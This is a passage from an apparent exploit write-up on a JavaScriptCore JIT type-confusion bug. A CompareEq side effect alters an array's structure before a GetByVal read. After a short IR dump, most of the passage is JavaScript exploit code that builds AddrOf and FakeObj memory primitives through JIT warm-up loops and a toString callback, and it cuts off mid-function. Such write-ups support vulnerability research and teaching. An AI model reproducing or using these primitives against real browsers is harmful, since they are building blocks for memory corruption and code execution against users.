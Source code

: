 ```asm
 48  0 14:   D@40:<!0:->	GetByVal(KnownCell:D@54, Int32:D@39, Check:Untyped:D@50, Double|MustGen|VarArgs|UseAsOther, AnyIntAsDouble|NonIntAsDouble, Double+OriginalArray+InBounds+AsIs+Read, R:Butterfly_publicLength,IndexedDoubleProperties, Exits, bc#31, ExitValid)  predicting NonIntAsDouble
 ...
```

However, the `CompareEq` node (node `36` ) has `side effect` (which may cause the object's `structure` changing), resulting in a type confusion bug when the  node `40` `GetByVal` getting the object properties.

## Exploit

With the type confusion vulnerability and the accumulated experience of previous exploits, the process of exploiting this vulnerability becomes easier.

The first thing is to construct `AddrOf` and `FakeObj` primitives with bug:

```js
let noCoW = 13.37;

let arr = [noCoW, 2.2, 3.3];

function AddrOfFoo(arr, cmpObj)
{
    arr[1] = 1.1;
    cmpObj == 2.2;  // trigger callback
    return arr[0];
}

// optimize compile AddrOfFoo
for( let i=0; i<MAX_ITERATIONS; i++ ) {
    AddrOfFoo(arr, {});
}

// addr_of primitive with vuln
function AddrOf(obj) {

    let arr = new Array(noCoW, 2,2, 3.3);
 
    let evil = {
        // vuln callback
        toString: () => {
            arr[0] = obj;
        }
    }

    let addr = AddrOfFoo(arr, evil);
    return f2i(addr);
}

function FakeObjFoo(arr, cmpObj, addr)
{
    arr[1] = 1.1;
    cmpObj == 2.2;  // trigger callback
    arr[0] = addr;
}

// optimize compiler FakeObjFoo
for( let i=0; i<MAX_ITERATIONS; i++ ) {
    FakeObjFoo(arr, {}, 1.1);
}

// fake_obj primitive with vuln
function FakeObj(addr) {
```